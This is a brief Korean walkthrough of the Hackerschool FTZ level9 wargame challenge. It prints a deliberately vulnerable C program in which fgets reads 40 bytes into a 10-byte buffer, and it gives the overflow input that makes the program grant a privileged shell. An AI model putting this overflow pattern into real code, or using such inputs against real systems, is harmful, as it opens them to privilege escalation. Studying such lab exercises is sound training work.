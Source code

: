 Hackerschool FTZ level9
===
~~~c
//다음은 /usr/bin/bof의 소스이다.

#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}
~~~
가보인다.

> $ cd /usr/bin
>>
> $ ./bof 0123456789012345go

를 하면 나오는데 
그이유는 gdb를해서 buf와 buf2사이의 dummy가 몇 바이트인지 알면 된다.
그래서 16를 체우고go를하면 넘어가진다.
